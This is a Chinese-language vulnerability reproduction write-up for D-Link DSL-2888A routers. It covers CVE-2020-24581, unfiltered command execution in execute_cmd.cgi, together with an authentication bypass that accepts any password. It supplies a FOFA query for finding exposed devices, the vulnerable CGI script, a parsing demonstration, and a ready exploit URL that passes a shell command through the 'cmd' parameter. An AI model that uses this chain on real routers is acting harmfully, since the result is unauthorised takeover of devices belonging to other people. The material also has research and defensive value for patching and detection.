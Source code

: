 # D-Link DSL-28881A 远程命令执行 CVE-2020-24581

## 漏洞描述

D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。
在该版本固件中同时存在着一个不安全认证漏洞（CVE-2020-24580），在登录界面输入任意密码就可以成功访问路由器界面。

## 漏洞影响

```
D-Link DSL-2888A
```

## FOFA

```
body="DSL-2888A"
```

## 漏洞复现

登录页面输入任意密码建立连接

![](./images/202202162221283.png)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

漏洞出现在 **execute_cmd.cgi** 文件中

```bash
#!/bin/sh
. /usr/syscfg/api_log.sh

cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`

result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"

echo "Content-type: text/html"
echo ""
echo -n ${result}
```

这里取出 **${QUERY_STRING}** 中的第二个参数值，然后去除空格命令执行

在这个过程中并没有过滤，看一下参数从哪来的

文件 **/www/js/ajax.js**

```javascript
get : function(_dataType)
	{
		var _url = this.url;
		if(_url.indexOf('?') == -1)
			_url += '?timestamp=' + new Date().getTime();
		else
			_url += "&timestamp=" + new Date().getTime();
		if(this.queryString.length > 0)
			_url += "&" + this.queryString;

		this.xmlHttp.open("GET", _url, true);
		/* will make IE11 fail.
		if(!document.all){
			if(_dataType == "xml")
				this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
			else
				this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据  
		}
		*/
		this.xmlHttp.send(null);
	},
```

看一下过程

```shell
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" |  cut -d = -f 3
whoami
```

这里取第二个参数 **whoami** 然后就没有过滤的执行了

所以EXP为:

```plain
http://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=test&cmd=whoami
```

![](./images/202202162221670.png)